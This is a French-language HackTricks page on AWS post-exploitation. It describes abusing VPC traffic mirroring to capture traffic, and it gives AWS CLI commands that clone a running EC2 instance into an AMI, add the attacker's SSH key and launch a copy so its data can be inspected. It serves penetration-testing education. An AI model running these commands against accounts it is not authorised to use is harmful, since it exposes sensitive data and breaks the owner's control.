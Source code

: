 # AWS - EC2, EBS, SSM & VPC Post-Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## EC2 & VPC

Pour plus d'informations, consultez :

{{#ref}}
../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/
{{#endref}}

### **Miroir VPC malveillant -** `ec2:DescribeInstances`, `ec2:RunInstances`, `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress`, `ec2:CreateTrafficMirrorTarget`, `ec2:CreateTrafficMirrorSession`, `ec2:CreateTrafficMirrorFilter`, `ec2:CreateTrafficMirrorFilterRule`

La mise en miroir du trafic VPC **duplique le trafic entrant et sortant des instances EC2 au sein d'un VPC** sans nécessiter l'installation de quoi que ce soit sur les instances elles-mêmes. Ce trafic dupliqué est généralement envoyé vers quelque chose comme un système de détection d'intrusion réseau (IDS) pour analyse et surveillance.\
Un attaquant pourrait abuser de cela pour capturer l'ensemble du trafic et en extraire des informations sensibles :

Pour plus d'informations, consultez cette page :

{{#ref}}
aws-malicious-vpc-mirror.md
{{#endref}}

### Copier une instance en cours d'exécution

Les instances contiennent généralement une forme d'information sensible. Il existe différentes façons d'y accéder (voir [EC2 privilege escalation tricks](../../aws-privilege-escalation/aws-ec2-privesc/README.md)). Cependant, une autre façon de vérifier ce qu'elles contiennent est de **créer une AMI et d'exécuter une nouvelle instance (même dans votre propre compte) à partir de celle-ci**:
```shell
# List instances
aws ec2 describe-images

# create a new image for the instance-id
aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1

# add key to AWS
aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```